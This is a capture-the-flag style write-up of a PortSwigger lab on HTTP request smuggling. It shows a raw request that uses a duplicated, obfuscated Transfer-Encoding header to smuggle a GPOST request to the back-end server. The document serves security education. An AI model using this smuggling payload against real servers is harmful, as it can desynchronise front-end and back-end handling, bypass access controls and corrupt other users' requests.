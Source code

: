 
# HTTP request smuggling, obfuscating the TE header

This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

Note: Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.


---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling



![img](images/HTTP%20request%20smuggling,%20obfuscating%20the%20TE%20header/1.png)

---------------------------------------------

It is necessary to add the header "Transfer-encoding: cow":

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

26
GPOST / HTTP/1.1
Content-Length: 10

0


```



![img](images/HTTP%20request%20smuggling,%20obfuscating%20the%20TE%20header/2.png)